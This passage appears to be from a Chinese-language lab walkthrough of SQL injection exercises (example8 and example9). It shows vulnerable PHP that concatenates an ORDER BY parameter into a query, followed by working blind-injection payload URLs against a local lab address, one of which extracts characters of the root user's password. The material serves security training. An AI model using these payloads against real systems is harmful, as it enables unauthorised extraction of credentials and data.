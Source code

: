 ```php
    }
    require '../footer.php';
?> 
```
看了源码直接丢sqlmap里跑吧！

> http://192.168.132.131/sqli/example8.php?order=id`, (select case when (1=1) then 1 else 1*(select table_name from information_schema.tables)end)=1%23

###  example9
```php
?php
  require_once('../header.php');
  require_once('db.php');
    $sql = "SELECT * FROM users ORDER BY ";
  $sql .= mysql_real_escape_string($_GET["order"]);
    $result = mysql_query($sql);
    if ($result) {
        ?> 
        <table class='table table-striped'> 
        <tr> 
            <th> <a href="example9.php?order=id"> id</th> 
            <th> <a href="example9.php?order=name"> name</th> 
            <th> <a href="example9.php?order=age"> age</th> 
        </tr> 
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr> ";
                echo "<td> ".$row['id']."</td> ";
                echo "<td> ".$row['name']."</td> ";
                echo "<td> ".$row['age']."</td> ";
            echo "</tr> ";
        }   
        echo "</table> ";
    }
  require '../footer.php';
?> 
```
同理直接上payload

> http://192.168.132.131//sqli/example9.php?order=(select CASE WHEN (SELECT ASCII(SUBSTRING(passwd, 1, 1)) FROM users where name = 0x726f6f74) = 98 THEN age ELSE id END)%23











